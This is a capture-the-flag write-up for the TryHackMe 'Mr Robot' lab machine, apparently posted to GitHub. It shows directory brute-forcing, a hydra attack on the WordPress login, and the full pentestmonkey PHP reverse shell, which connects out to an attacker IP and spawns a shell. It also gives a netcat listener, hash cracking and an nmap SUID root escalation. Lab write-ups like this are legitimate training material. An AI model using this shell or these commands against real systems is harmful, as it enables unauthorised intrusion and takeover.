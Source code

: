 # TryHackMe-MR_Robot_CTF

H4ppy H4ck1ng Br0


![image](https://user-images.githubusercontent.com/64806211/127406438-801cc0a5-3311-4532-89fa-6c51ef9a77d2.png)
 
 
 
 You can find the room here:
 
 https://tryhackme.com/room/mrrobot
 
 
 
 
 `Description`
 
 
 
 
 Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

Credit to Leon Johnson for creating this machine.
 
 
 ### **Recon__** 
 
 
 
nmap -A 10.10.227.36 shows that there are 997 filtered port and port 22, 80 and 443 are filtered. This means that there is some kind of firewall blocking the nmap scans


Lets open the website anyway. the http site give a browser based shell with only few commands. The https site has a self signed certificate, and it also does the same thing



![hdh](https://user-images.githubusercontent.com/64806211/127406829-e28231df-20b3-4f41-a636-9ffcb6107fae.png)
 
 
 
Before trying some commands let’s view the source code: 



![image](https://user-images.githubusercontent.com/64806211/128553822-6d7c47e2-38cb-4114-b6f3-cb6fbacaaaaa.png)





Okay nothing interesting. Let’s try the commands: 




`prepare - shows us a video`


`fsociety - shows us a video too`


`inform - shows us pictures`



`question - shows us a video`



`wakeup - same`


`join - we need to type in our email but then nothing happens`





Now we need to bruteforce the directories with gobuster:





  
  `gobuster dir -u $IP -w /usr/share/wordlists/dirb/common.txt` 
  
  
  
  Commands: 
  
  
  
  
  
  `dir – specify that we want to bruteforce the directories`



`-u – for the url`



`-w – path to the wordlist that we want to use`





Output:




![image](https://user-images.githubusercontent.com/64806211/128554730-eb933216-1996-4cbf-9f3c-f8bfa321fba4.png)



Note: I missed to screenshot the robots.txt directory. 






Let’s head into the robots.txt directory: 



`User-agent: *`


`fsocity.dic`



`key-1-of-3.txt`



Sweet. We have a dictionary and the first flag. We can use wget to download them both: 


`wget http://$IP/fsocity.dic`



`wget http://$IP/key-1-of-3.txt`



Now look again at the directories. We can see there is a blog running. Let’s head into “/dashboard”:





![image](https://user-images.githubusercontent.com/64806211/128555625-da04cbdf-09aa-45eb-a3d7-4fcb157f5481.png)
 
 
 
 
 Oh yes we can see we have wordpress running. Maybe we can bruteforce it with hydra using the username elliot?

 
 
 
 
 `hydra -l elliot -P #path to fsocity.dic $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -V` 
 
 
 
 
 Commands: 
 
 
 
 
 `-l` – specify the username(-L for username list)
 
 

`-P` – specify the wordlist for password(-p for a single password)


http-post-form – we are bruteforcing the post form so we need this to specify what are we looking for. 




`-V` – verbose mode so we can see every try 


Great we found the password. Now let’s use the 404 template as a reverse shell. Let me show you how: 



navigate to Appearance –> Editor –> then on the right click 404 Template:



![image](https://user-images.githubusercontent.com/64806211/128556964-24b2d9ae-9855-4144-8086-7a06a25aabc3.png) 



Now we need to change the php code with the code from our reverse shell and we can gain access:



#code to use for the reverse shell:



<?php


// php-reverse-shell - A Reverse Shell implementation in PHP


// Copyright (C) 2007 pentestmonkey@pentestmonkey.net


//


// This tool may be used for legal purposes only.  Users take full responsibility


// for any actions performed using this tool.  The author accepts no liability


// for damage caused by this tool.  If these terms are not acceptable to you, then


// do not use this tool.


//


// In all other respects the GPL version 2 applies:


//


// This program is free software; you can redistribute it and/or modify


// it under the terms of the GNU General Public License version 2 as


// published by the Free Software Foundation.


//


// This program is distributed in the hope that it will be useful,


// but WITHOUT ANY WARRANTY; without even the implied warranty of


// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the


// GNU General Public License for more details.


//


// You should have received a copy of the GNU General Public License along


// with this program; if not, write to the Free Software Foundation, Inc.,


// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.


//



// This tool may be used for legal purposes only.  Users take full responsibility


// for any actions performed using this tool.  If these terms are not acceptable to


// you, then do not use this tool.


//


// You are encouraged to send comments, improvements or suggestions to


// me at pentestmonkey@pentestmonkey.net


//


// Description


// -----------


// This script will make an outbound TCP connection to a hardcoded IP and port.


// The recipient will be given a shell running as the current user (apache normally).


//


// Limitations


// -----------


// proc_open and stream_set_blocking require PHP version 4.3+, or 5+


// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.


// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.


//


// Usage


// -----


// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.





set_time_limit (0);


$VERSION = "1.0";


$ip = '**********';  // CHANGE THIS


$port = 1234;       // CHANGE THIS


$chunk_size = 1400;


$write_a = null;


$error_a = null;


$shell = 'uname -a; w; id; /bin/sh -i';


$daemon = 0;


$debug = 0;



//


// Daemonise ourself if possible to avoid zombies later



//



// pcntl_fork is hardly ever available, but will allow us to daemonise



// our php process and avoid zombies.  Worth a try...


if (function_exists('pcntl_fork')) {

 

// Fork and have the parent process exit

 

$pid = pcntl_fork();

 


 
if ($pid == -1) {

  

printit("ERROR: Can't fork");

  

exit(1);

 

}

 


 
if ($pid) {

  

exit(0);  // Parent exits

 
}


 
// Make the current process a session leader

 

// Will only succeed if we forked

 
if (posix_setsid() == -1) {

  

printit("Error: Can't setsid()");

  

exit(1);

 

}




 
$daemon = 1;


} else {

 
printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");


}





// Change to a safe directory


chdir("/");




// Remove any umask we inherited




umask(0);



//



// Do the reverse shell...



//




// Open reverse connection




$sock = fsockopen($ip, $port, $errno, $errstr, 30);




if (!$sock) {

 


printit("$errstr ($errno)");

 


exit(1);



}




// Spawn shell process





$descriptorspec = array(

   



0 => array("pipe", "r"),  // stdin is a pipe that the child will read from

   



1 => array("pipe", "w"),  // stdout is a pipe that the child will write to

   


2 => array("pipe", "w")   // stderr is a pipe that the child will write to



);




$process = proc_open($shell, $descriptorspec, $pipes);




if (!is_resource($process)) {

 

printit("ERROR: Can't spawn shell");

 

exit(1);




}




// Set everything to non-blocking



// Reason: Occsionally reads will block, even though stream_select tells us they won't



stream_set_blocking($pipes[0], 0);




stream_set_blocking($pipes[1], 0);



stream_set_blocking($pipes[2], 0);



stream_set_blocking($sock, 0);




printit("Successfully opened reverse shell to $ip:$port");




while (1) {

 
// Check for end of TCP connection

 

if (feof($sock)) {

  


printit("ERROR: Shell connection terminated");

  

break;

 

}


 


// Check for end of STDOUT

 


if (feof($pipes[1])) {

  


printit("ERROR: Shell process terminated");

  


break;

 


}


 


// Wait until a command is end down $sock, or some

 


// command output is available on STDOUT or STDERR

 


$read_a = array($sock, $pipes[1], $pipes[2]);

 


$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);


 


// If we can read from the TCP socket, send

 


// data to process's STDIN

 


if (in_array($sock, $read_a)) {

  


if ($debug) printit("SOCK READ");

  


$input = fread($sock, $chunk_size);

  




if ($debug) printit("SOCK: $input");

  


fwrite($pipes[0], $input);

 

}




 
// If we can read from the process's STDOUT

 

// send data down tcp connection

 

if (in_array($pipes[1], $read_a)) {

  


if ($debug) printit("STDOUT READ");

  


$input = fread($pipes[1], $chunk_size);

  


if ($debug) printit("STDOUT: $input");

  

fwrite($sock, $input);

 

}


 

// If we can read from the process's STDERR

 

// send data down tcp connection

 


if (in_array($pipes[2], $read_a)) {

  



if ($debug) printit("STDERR READ");

  



$input = fread($pipes[2], $chunk_size);

  





if ($debug) printit("STDERR: $input");

  




fwrite($sock, $input);

 


}



}




fclose($sock);



fclose($pipes[0]);




fclose($pipes[1]);



fclose($pipes[2]);




proc_close($process);




// Like print, but does nothing if we've daemonised ourself




// (I can't figure out how to redirect STDOUT like a proper daemon)





function printit ($string) {

 




if (!$daemon) {

  


print "$string\n";

 



}



}




?> 




Okay now paste it into the 404 template and set up a netcat listener:





`nc -lvnp 1234` 



Now save the 404 template and go to “http://$IP/404.php&#8221;. And just like that we have a reverse shell. Now let’s stabilize it a little bit: 




python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm 



Now let’s see what we have into “robot” home folder:




![image](https://user-images.githubusercontent.com/64806211/128558382-51230099-a1c8-4e80-bd66-20ba83422764.png)




Hmmmm if we try to cat the key-2-of-3.txt we get a permission denied so let’s see what this password.raw-md5 is: 




`cat password.raw-md5`




`#output`




`robot:c3fcd3d76192e4007dfb496cca67e13b`




And if we crack it using an online md5 decrypter we get the password for the user robot. Now let’s change users:



`su robot`




`Enter password:`



And boom we are robot. Now let’s cat out the key-2-of-3.txt and see what we can do: 




`find / -perm +6000 2>/dev/null | grep '/bin/'`





![image](https://user-images.githubusercontent.com/64806211/128559112-929202f8-190e-4f6c-a7e7-9ae79130b18c.png)







Oh shiiiiiiiiit we can see nmap is running as root process so we can use it to get a root shell:




`nmap --interactive` 




![image](https://user-images.githubusercontent.com/64806211/128559387-c8782cbd-4599-4be1-a935-47eff8788c4b.png)




BOOM BOOM BOOM
we just completed the box. High five, yeah. Again thank you for the support, i hope you liked the write-up and expect more in the future.
